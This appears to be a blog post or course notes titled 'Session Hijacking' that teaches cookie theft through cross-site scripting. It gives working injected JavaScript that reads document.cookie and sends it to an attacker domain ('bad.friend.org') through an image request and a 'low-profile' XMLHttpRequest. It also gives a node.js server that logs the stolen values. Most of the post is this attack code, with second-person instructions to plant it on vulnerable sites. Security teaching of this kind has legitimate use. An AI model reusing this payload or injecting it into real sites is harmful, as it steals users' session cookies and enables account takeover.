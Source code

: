 ```yaml
---
layout: post
title: Session Hijacking
subtitle: Week 19 - data theft over the Internet
tags: [XSS, exploit]
---
```


Previously, we have demonstrated how to use ARP poison attacks to compromise unencrypted communication on local area networks (LAN). The attacks described below are effective over HTTPS traffic from external networks.

# Cookie Stealing

First, you must create an entry point on the vulnerable website with cross-site scripting. Force clients to establish a connection with your server.

## JavaScript Injection

For the code snippet below, we assume your server is accessible at the domain `bad.friend.org`.

{% highlight javascript linenos %}

let yourCookie = encode(document.cookie);

// retrieve an image from the server, but send the victim's cookies as well.
let url = `http://bad.friend.org/picture.jpg?cookie=${yourCookie}`;
document.getElementById('image').src = url;

// AJAX - Unnoticed by the typical user, low-profile payload

// string template https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals
url = `http://bad.friend.org/gimmie?cookie=${yourCookie}`;
let xhr = new XMLHttpRequest();
xhr.open('GET', url, true);
xhr.send();

{% endhighlight %}

## Basic node.js Server

This is a minimal node.js server that prints HTTP request parameters to standard output.

{% highlight javascript linenos %}

const http = require('http');

http.createServer((req, res) => {

  let i = req.url.indexOf('?');
  if (i !== -1)
    console.log(req.connection.remoteAddress + ' ' + req.url.substring(i));

  res.end('thanks buddy\n');
}).listen(process.env.PORT || 8125);

{% endhighlight %}
